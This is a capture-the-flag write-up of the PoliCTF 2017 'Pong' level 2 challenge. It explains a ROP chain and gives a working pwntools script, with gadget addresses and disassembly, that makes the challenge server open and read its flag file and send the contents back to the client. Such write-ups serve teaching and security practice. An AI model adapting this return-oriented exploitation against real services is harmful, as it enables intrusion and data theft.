 ```yaml
---
layout: post
title:  "PoliCTF 2017 - Pong(lvl2)"
date:   2017-07-09 21:17
categories: CTF
tags: [PoliCTF2017]
categories: [Pwn]
author: jbz
---
```

> Ready for another match? :P

> nc pong.chall.polictf.it 31337 or nc pong2.chall.polictf.it 31337

[Download](https://github.com/jbzteam/CTF/blob/master/PoliCTF2017/Pong/pong2.tgz)

It is basically the same binary as [level1](https://github.com/jbzteam/CTF/blob/master/PoliCTF2017/Pong/pong1.tgz?raw=true), but without the `secret` function. 

This time we did ROP to achieve what the removed function was offering. 

We used ROPgadget to lookup for meaningful gadgets to achieve our intent. We chained gadgets to achieve calls to `open` then `read` (both of them had a PLT entry) and finally we called `sendMessage` to have the flag content printed back to the client socket. 

Since we didn't find a proper gadget in order to prepare the correct `fd` argument for the call to `read` (specifically the one returned by `open`) we tried to guess it. 

We observed that the `fd` number was 9 on our local machine, so we tried that value on the server and it worked like a charm at the first run. 

```

from pwn import *
import sys

def start_game(level, local=None):
    log.info("local: %s" % local)
    if str(local) == str("local"):
        p = remote('localhost', 31337)
    else:
        p = remote('pong.chall.polictf.it', 31337)
    p.sendline(level)
    p.recvuntil("OK ")
    s = p.recvline()
    c_port = int(s.strip())
    return c_port



def play_pong(port, local=None):
    print "connecting to pong UDP server at %d" % port
    if str(local) == str('local'):
        p = remote('localhost', port, typ="udp")
    else:
        p = remote('pong.chall.polictf.it', port, typ="udp")
    return p



def send_to_pong(p, pay, stop=None): 
    p.sendline(pay)
    s = None
    if stop:
        s = p.recv(timeout=5)
    return s



def prepare():
    port = start_game("Lv2", sys.argv[1])
    p = play_pong(port, sys.argv[1])
    return p



def payloadgen():
    # read(open("./flag2", O_RDONLY), buf, 256)
    # sendMessage(buf)
    pop_rdi = p64(0x406938) # pop rdi
    pop_rsi = p64(0x404717) # pod rsi 
    pop_rdx = p64(0x405c65) # pop rdx ; pop ; rsp+8 ; ret
    mov_rdi = p64(0x40df60) # 0x40df60 mov qword ptr [rdi], rdx ; ret
    buf = p64(0x61F560) # buffer (field of zeros)
    RDONLY = p64(0x0)
    
    pay = "1" + "|" + "2" * 22
    pay += pop_rdi
    pay += buf

    '''
    we observed that in someway ( we did not investigate on)
    the stack position where we put the
    flag string was modified corrupting 
    its value. so we add some instructions 
    to push deeper down to the stack 
    the string, so avoiding the corruption.
    '''
    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash
    
    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += mov_rdi
    pay += pop_rsi
    pay += RDONLY

    #0x0000000000416add : pop rax ; pop rbx ; pop rbp ; pop r12 ; ret
    pay += p64(0x0000000000416add)
    pay += p64(elf.plt['open'])
    pay += p64(0x0)
    pay += p64(0x0)
    pay += p64(0x0)

    #0x0000000000402e48 : call rax
    pay += p64(0x0000000000402e48)
    pay += p64(0x0)

    # mov rdi, rax
    pay += pop_rdi
    pay += p64(0x9)
    pay += pop_rsi
    pay += buf
    pay += pop_rdx
    pay += p64(0x100) # len
    pay += p64(0x100)
    pay += p64(0x100)
    pay += p64(elf.plt['read'])
    
    pay += pop_rdi
    pay += buf
    pay += p64(0x404526) # sendMessage
    return pay


elf = ELF('./level2/level2')
p = prepare()
raw_input("stop")
print("Sending reset")

pay = "-1|2"
send_to_pong(p, pay, False)
pay = payloadgen()
for x in range(1):
    log.info("SENDING FATAL PONG")
    send_to_pong(p, pay, False)

for x in range(10):
    print(p.recv())


'''

0x0000000000406938 : pop rdi ; ret

0x0000000000406936 : pop rsi ; pop r15 ; ret

0x0000000000404717 : pop rsi ; ret

0x0000000000405c65 : pop rdx ; pop rcx ; add rsp, 8 ; ret

0x0000000000407546 : push rax ; ret

00000000004036a0 <open@plt>:

0000000000403290 <read@plt>:

.text:0000000000404526 sendMessage     proc near           ; CODE XREF: broadcast+69p

.text:0000000000404526

.text:0000000000404526 mex         = qword ptr -18h

.text:0000000000404526

.text:0000000000404526         push    rbp

.text:0000000000404527         mov     rbp, rsp

.text:000000000040452A         push    rbx

.text:000000000040452B         sub     rsp, 18h

.text:000000000040452F         mov     [rbp+mex], rdi



'''

```
